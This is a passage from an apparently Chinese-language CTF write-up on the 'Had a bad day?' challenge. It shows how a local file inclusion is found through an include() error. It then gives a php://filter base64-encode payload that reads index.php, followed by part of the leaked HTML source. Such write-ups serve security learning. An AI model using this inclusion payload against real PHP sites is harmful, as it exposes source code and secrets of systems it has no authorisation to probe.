 加一个单引号试一下，可以看到`include`函数报错，那么就可以确定是文件包含了

<img src="CTF.assets/image-20230901172330677.png" alt="image-20230901172330677" style="zoom:50%;" />

尝试使用`php://filter`包含`index.php`，这里注意报错，**后台会在上传的字符串中自动追加PHP，所以直接传入index即可**

```
php://filter/read=convert.base64-encode/resource=index
```

<img src="CTF.assets/image-20230901172815113.png" alt="image-20230901172815113" style="zoom:67%;" />

得到源码如下：

```php
<html>
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="description" content="Images that spark joy">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0">
    <title>Had a bad day?</title>
    <link rel="stylesheet" href="css/material.min.css">
    <link rel="stylesheet" href="css/style.css">
  </head>
  <body>
    <div class="page-layout mdl-layout mdl-layout--fixed-header mdl-js-layout mdl-color--grey-100">
      <header class="page-header mdl-layout__header mdl-layout__header--scroll mdl-color--grey-100 mdl-color-text--grey-800">
        <div class="mdl-layout__header-row">
          <span class="mdl-layout-title">Had a bad day?</span>
          <div class="mdl-layout-spacer"></div>
        <div>
      </header>
```